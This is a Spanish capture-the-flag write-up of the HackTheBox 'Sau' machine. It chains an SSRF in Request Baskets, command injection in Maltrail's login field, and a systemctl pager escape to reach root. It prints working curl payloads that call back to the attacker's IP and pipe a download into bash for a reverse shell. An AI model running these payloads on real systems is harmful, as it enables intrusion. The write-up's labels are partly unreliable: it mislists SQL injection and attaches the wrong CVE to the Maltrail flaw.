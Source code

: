 ```yaml
---
title: HackTheBox - Sau
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, SSRF, 'Command Injection']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Sau/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Sau Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **SQL Injection, SSRF, Command Injection**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Sau`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Machines/Sau/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sC  <IP> -oN versiones`**

    ![](/assets/images/Machines/Sau/02-versions.png)

    > Tenemos 2 puertos filtrados **`80,8338`**

c. Visitamos la página web

![](/assets/images/Machines/Sau/03-web.png)

* Al buscar algo relacionado con **`Request Baskets`** veremos que existe un **`SSRF`**, esto nos servirá para ver los servicios de los **puertos filtrados** 

### **Configurando SSRF** 🦈

1. Creamos un nuevo **`basket`** y lo abrimos

    ![](/assets/images/Machines/Sau/04-step.png)

2. Lo configuramos para que todo el tráfico que enviemos a este **`basket`** sea redirigido al puerto **`80`** interno de la máquina

    ![](/assets/images/Machines/Sau/04-step2.png)

3. Si ahora visitamos el **basket** veremos la página web del puerto **80** (Puerto Filtrado)

    ![](/assets/images/Machines/Sau/05-ssrf.png)

d. El servicio es **`Maltrail (v0.53)`**, y al buscar por vulnerabilidades encontramos [CVE:2023-27163](https://www.exploit-db.com/exploits/51676), es una inyección de comando

```bash
> curl 'http://<IP Sau>:55555/[basket]/login' --data 'username=;`curl http://<tun0 IP>:8081`'
--------------------------------------------------------------------------------------------------------------
> nc -lvnp 8081
listening on [any] 8081 ...
connect to [10.10.14.174] from (UNKNOWN) [10.10.11.224] 39976
```

c. Nos enviamos una reverse shell

```bash
> curl 'http://<IP Sau>:55555/08cexes/login' --data 'username=;`curl http://<tun0 IP>:4444|bash`'
```

![](/assets/images/Machines/Sau/06-shell.png)


### Escalada de Privilegios 💹

a. Listamos privilegios a nivel de sudoers

```bash
puma@sau:/opt/maltrail$ sudo -l

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

b. Ejecutamos el script como root y una vez que el servicio se despliege teclearemos **`!/bin/bash`**

```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
```

![](/assets/images/Machines/Sau/07-bash.png)